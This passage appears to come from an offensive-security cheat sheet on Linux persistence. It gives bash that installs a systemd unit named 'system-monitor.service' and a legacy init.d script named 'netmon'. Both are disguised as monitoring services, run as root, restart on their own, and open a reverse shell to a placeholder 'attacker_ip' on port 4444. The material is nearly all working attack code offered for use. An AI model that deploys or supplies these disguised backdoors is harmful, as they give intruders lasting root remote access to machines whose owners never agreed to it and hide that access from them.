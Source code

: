 ### Service-Based Persistence

#### Systemd Services
```bash
# Create service file
cat > /etc/systemd/system/system-monitor.service << EOF
[Unit]
Description=System Monitor Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
Restart=always
RestartSec=5
User=root

[Install]
WantedBy=multi-user.target
EOF

# Enable and start service
systemctl enable system-monitor.service
systemctl start system-monitor.service
```

#### Init.d Scripts (Legacy)
```bash
# Create init script
cat > /etc/init.d/netmon << 'EOF'
#!/bin/bash
### BEGIN INIT INFO
# Provides:          netmon
# Required-Start:    $network
# Required-Stop:     $network
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Description:       Network monitoring service
### END INIT INFO

case "$1" in
    start)
        /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1' &
        ;;
    stop)
        pkill -f "attacker_ip"
        ;;
    *)
        echo "Usage: $0 {start|stop}"
        exit 1
        ;;
esac
EOF

chmod +x /etc/init.d/netmon
update-rc.d netmon defaults
```
